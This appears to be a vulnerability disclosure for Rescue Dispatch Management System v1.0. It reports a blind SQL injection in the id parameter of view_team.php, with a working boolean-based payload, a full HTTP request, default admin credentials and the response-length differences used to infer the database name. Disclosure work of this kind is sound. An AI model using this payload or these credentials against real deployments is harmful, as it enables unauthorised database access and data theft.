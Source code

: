 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/teams/view_team.php?id=

Vulnerability location: /rdms/admin/teams/view_team.php?id=,id

[+] Payload: /rdms/admin/teams/view_team.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/teams/view_team.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 936
![image](https://user-images.githubusercontent.com/54017627/170461393-87d24fa0-a979-40f9-ab31-cf7469175aec.png)

![image](https://user-images.githubusercontent.com/54017627/170461153-2499b9ba-2f1c-4618-8396-6efa5215f8a1.png)

When length (database ()) = 7, Content-Length: 829
![image](https://user-images.githubusercontent.com/54017627/170461350-16928553-6de6-46fc-bb02-c1e785298edf.png)

![image](https://user-images.githubusercontent.com/54017627/170461104-8d2c7267-0c83-4029-9fc0-4c6869d1e67f.png)
